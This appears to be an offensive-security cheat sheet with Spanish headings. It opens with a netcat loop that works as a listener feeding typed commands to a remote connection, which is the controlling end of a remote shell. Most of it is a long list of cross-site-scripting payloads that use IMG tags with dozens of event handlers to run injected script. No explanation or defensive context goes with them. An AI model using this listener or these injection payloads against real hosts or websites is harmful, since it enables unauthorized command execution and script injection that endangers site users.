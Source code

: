 ### para escuchar:
```
while :; do printf "Y000>$ "; read c; echo $c | nc -vvlp PORT >/dev/null; done
```
### eventos 

```
<IMG SRC=x onload="alert(String.fromCharCode(88,83,83))">
<IMG SRC=x onafterprint="alert(String.fromCharCode(88,83,83))">
<IMG SRC=x onbeforeprint="alert(String.fromCharCode(88,83,83))">
<IMG SRC=x onbeforeunload="alert(String.fromCharCode(88,83,83))">
<IMG SRC=x onerror="alert(String.fromCharCode(88,83,83))">
<IMG SRC=x onhashchange="alert(String.fromCharCode(88,83,83))">
<IMG SRC=x onload="alert(String.fromCharCode(88,83,83))">
<IMG SRC=x onmessage="alert(String.fromCharCode(88,83,83))">
<IMG SRC=x ononline="alert(String.fromCharCode(88,83,83))">
<IMG SRC=x onoffline="alert(String.fromCharCode(88,83,83))">
<IMG SRC=x onpagehide="alert(String.fromCharCode(88,83,83))">
<IMG SRC=x onpageshow="alert(String.fromCharCode(88,83,83))">
<IMG SRC=x onpopstate="alert(String.fromCharCode(88,83,83))">
<IMG SRC=x onresize="alert(String.fromCharCode(88,83,83))">
<IMG SRC=x onstorage="alert(String.fromCharCode(88,83,83))">
<IMG SRC=x onunload="alert(String.fromCharCode(88,83,83))">
<IMG SRC=x onblur="alert(String.fromCharCode(88,83,83))">
<IMG SRC=x onchange="alert(String.fromCharCode(88,83,83))">
<IMG SRC=x oncontextmenu="alert(String.fromCharCode(88,83,83))">
<IMG SRC=x oninput="alert(String.fromCharCode(88,83,83))">
<IMG SRC=x oninvalid="alert(String.fromCharCode(88,83,83))">
<IMG SRC=x onreset="alert(String.fromCharCode(88,83,83))">
<IMG SRC=x onsearch="alert(String.fromCharCode(88,83,83))">
<IMG SRC=x onselect="alert(String.fromCharCode(88,83,83))">
<IMG SRC=x onsubmit="alert(String.fromCharCode(88,83,83))">
<IMG SRC=x onkeydown="alert(String.fromCharCode(88,83,83))">
<IMG SRC=x onkeypress="alert(String.fromCharCode(88,83,83))">
<IMG SRC=x onkeyup="alert(String.fromCharCode(88,83,83))">
<IMG SRC=x onclick="alert(String.fromCharCode(88,83,83))">
<IMG SRC=x ondblclick="alert(String.fromCharCode(88,83,83))">
<IMG SRC=x onmousedown="alert(String.fromCharCode(88,83,83))">
<IMG SRC=x onmousemove="alert(String.fromCharCode(88,83,83))">
<IMG SRC=x onmouseout="alert(String.fromCharCode(88,83,83))">
<IMG SRC=x onmouseover="alert(String.fromCharCode(88,83,83))">
<IMG SRC=x onmouseup="alert(String.fromCharCode(88,83,83))">
<IMG SRC=x onmousewheel="alert(String.fromCharCode(88,83,83))">
<IMG SRC=x onwheel="alert(String.fromCharCode(88,83,83))">
<IMG SRC=x ondrag="alert(String.fromCharCode(88,83,83))">
<IMG SRC=x ondragend="alert(String.fromCharCode(88,83,83))">
<IMG SRC=x ondragenter="alert(String.fromCharCode(88,83,83))">
<IMG SRC=x ondragleave="alert(String.fromCharCode(88,83,83))">
<IMG SRC=x ondragover="alert(String.fromCharCode(88,83,83))">
<IMG SRC=x ondragstart="alert(String.fromCharCode(88,83,83))">
<IMG SRC=x ondrop="alert(String.fromCharCode(88,83,83))">
<IMG SRC=x onscroll="alert(String.fromCharCode(88,83,83))">
<IMG SRC=x oncopy="alert(String.fromCharCode(88,83,83))">
<IMG SRC=x oncut="alert(String.fromCharCode(88,83,83))">
<IMG SRC=x onpaste="alert(String.fromCharCode(88,83,83))">
<IMG SRC=x onabort="alert(String.fromCharCode(88,83,83))">
<IMG SRC=x oncanplay="alert(String.fromCharCode(88,83,83))">
<IMG SRC=x oncanplaythrough="alert(String.fromCharCode(88,83,83))">
<IMG SRC=x oncuechange="alert(String.fromCharCode(88,83,83))">
<IMG SRC=x ondurationchange="alert(String.fromCharCode(88,83,83))">
<IMG SRC=x onemptied="alert(String.fromCharCode(88,83,83))">
<IMG SRC=x onended="alert(String.fromCharCode(88,83,83))">
<IMG SRC=x onerror="alert(String.fromCharCode(88,83,83))">
```